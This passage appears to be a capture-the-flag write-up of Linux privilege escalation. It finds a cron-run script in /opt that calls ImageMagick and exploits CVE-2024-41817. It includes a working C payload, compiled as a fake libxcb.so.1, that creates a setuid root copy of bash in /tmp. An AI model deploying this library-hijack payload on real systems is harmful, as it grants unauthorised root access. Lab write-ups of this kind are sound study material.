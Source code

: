 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916171419.png)

Pkexec SUDI but can't exploit via PwnKit

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916171542.png)

Some files modified in last 5min, tried pspy but no results

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916172229.png)

So I start manual enumeration and when checking /opt folder (on ctf should be empty I found, that it isn't). Quick check is sth is writable here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916172853.png)

Also check scripts directory for passwords or anything useful and I found that this script use magic, imminently checked version, cause in 2024 was known imagemagick code execution vulnerability and I think we got it, also from linpeas we know that script is running on cron /less then 5min

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916173114.png)

https://nvd.nist.gov/vuln/detail/cve-2024-41817
reading exploit descriptions i figure it that we need to create malicious shared library  and run imagemagick (PoC is on the bottom)
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
Let's edit it and create tmp root bash

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash");
    exit(0);
}
EOF
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250916174249.png)

Quick and easy root shell, now grab your root flag